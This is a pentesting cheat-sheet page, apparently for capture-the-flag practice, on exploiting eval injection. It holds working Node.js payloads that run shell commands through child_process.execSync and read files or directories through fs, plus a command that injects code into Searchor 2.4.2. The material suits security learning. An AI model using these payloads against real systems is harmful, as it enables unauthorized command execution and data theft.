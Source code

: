 # Exploiting 'eval' Function

<div class="row row-cols-lg-2"><div>

Almost every language that we encounter during pentesting has an `eval` function that takes a string and execute the code inside.

Such function should be sparingly. Do not pass user input to them.

* PHP Eval Function

```php!
<?php
$payload = "echo 'Hello, World!';";
eval($payload);
```
</div><div>

* JavaScript/Node.js Eval Function

```js!
payload = 'console.log("Hello, World!")'
eval(payload)
```

* Python Eval <small>(or Exec)</small> Function

```js!
payload = "print('Hello, World!')"
eval(payload)
exec(payload)
```
</div></div>

<hr class="sep-both">

## Node.js 'eval' function

[![glitch](../../../../_badges/thm-p/glitch.svg)](https://tryhackme.com/r/room/glitch)
[![celestial](../../../../_badges/htb-p/celestial.svg)](https://app.hackthebox.com/machines/Celestial)
[![node_eval](../../../../_badges/rootme/web_server/node_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/Node-Eval)

<div class="row row-cols-lg-2"><div>

If the input is evaluated using eval, we can write some code  in it.

* Normal input: `5`
* Normal input wrapped: `(()=>5)()`
* Normal input fully wrapped: `(()=>{return 5})()`
* If it works, we can add some code in-between

```js!
(() => {
  try {
    return `Output: ${require('child_process').execSync('whoami').toString()}`
  } catch (error) {
    return `Error executing command: ${error}`
  }
})()
// without spaces
(()=>{try{return(`Output:${require('child_process').execSync('whoami').toString()}`)}catch(error){return(`Error:${error}`)}})()
```
</div><div>

It's not always possible to return a string, but if errors are returned, you may use them instead of the usual vector.

```js!
(()=>{throw new Error(require("child_process").execSync("whoami").toString())})()
```

Additional payloads:

```js!
res.end(require('fs').readdirSync('.').toString())
res.end(require('fs').readFileSync('file').toString())
```
</div></div>

<hr class="sep-both">

## Python 'eval' function

<div class="row row-cols-lg-2"><div>

#### Searchor 2.4.2

[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)

[Poc (python script)](https://github.com/jonnyzar/POC-Searchor-2.4.2) <small>(0.01k ⭐)</small>.

```shell!
$ onectf request -u URL -X POST -d 'engine=Yahoo' -p query -i '<q>, exec(""))#'
```

You can execute python code inside `exec`.
</div><div>
</div></div>